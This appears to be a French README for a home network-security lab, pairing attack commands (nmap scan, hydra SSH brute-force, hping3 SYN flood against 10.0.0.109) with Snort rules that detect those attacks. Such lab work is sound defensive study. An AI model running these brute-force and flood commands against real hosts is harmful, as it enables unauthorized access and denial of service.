





# Attaque

apt install nmap hydra hping3 curl

# Metasploit
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall

nmap -sS 10.0.0.109

    

hydra -l user -P /root/passwords.txt -t 4 -vV ssh://10.0.0.109

    

hping3 -S -p 22 --flood 10.0.0.109

    

# Defense

Log Nmap

    

Log Ddos

    

nano /root/snort3/lua/rules/local.rules 

# LOCAL RULES
# ----------------
# This file intentionally does nots come with signatures. Put your local additions here.

drop icmp any any -> any any (msg:"!!! ICMP Alert !!!";sid:1000001;rev:1;classtype:icmpevent;)

#alert tcp any any -> any any (msg:"Scan de ports détecté"; flags:S; detection_filter:track by_src, count 10, seconds 60; sid:1000001; rev:1;)

#alert tcp any any -> any 22 (msg:"Tentative de connexion SSH suspecte détectée"; flow:to_server,established; content:"SSH"; detection_filter:track by_src, count 5, seconds 60; sid:1000002; rev:1;)

#alert tcp any any -> any 22 (msg:"Échec de connexion SSH détecté"; flow:to_server,established; content:"Permission denied"; sid:1000004; rev:1;)

#alert tcp any any -> any 22 (msg:"Tentative de connexion SSH suspecte"; flags:S; sid:1000002; rev:1;)

#alert tcp any any -> any any (msg:"Tentative d'exploitation détectée"; content:"|90 90 90|"; sid:1000003; rev:1;)

######
#
######
# NMAP
alert tcp any any -> any any (msg:"Scan Nmap SYN détecté"; flags:S; detection_filter:track by_src, count 5, seconds 10; sid:2000001; rev:1;)

alert tcp any any -> any any (msg:"Scan Nmap FIN détecté"; flags:F; detection_filter:track by_src, count 5, seconds 10; sid:2000002; rev:1;)
alert udp any any -> any any (msg:"Scan Nmap UDP détecté"; detection_filter:track by_src, count 5, seconds 10; sid:2000003; rev:1;)

# SSH

alert tcp any any -> any 22 (msg:"Hydra SSH force brute détecté"; flow:to_server,established; content:"SSH"; detection_filter:track by_src, count 3, seconds 30; sid:2000004; rev:1;)
alert tcp any any -> any 22 (msg:"Hydra SSH force brute détecté - Échec d'authentification"; flow:to_server,established; content:"Permission denied, please try again."; detection_filter:track by_src, count 3, seconds 30; sid:2000009; rev:1;)

# Hping

alert icmp any any -> any any (msg:"DDoS ICMP avec hping3 détecté"; detection_filter:track by_src, count 100, seconds 1; sid:2000005; rev:1;)

alert tcp any any -> any any (msg:"DDoS SYN flood avec hping3 détecté"; flags:S; detection_filter:track by_src, count 100, seconds 1; sid:2000006; rev:2;)

# Metasploit

alert tcp any any -> any 445 (msg:"Tentative d'exploitation SMB avec Metasploit détectée"; flow:to_server,established; content:"|FF|SMB"; sid:2000007; rev:1;)

alert tcp any any -> any any (msg:"Payload Meterpreter détecté"; flow:to_server,established; content:"|90 90 90 90|"; sid:2000008; rev:1;)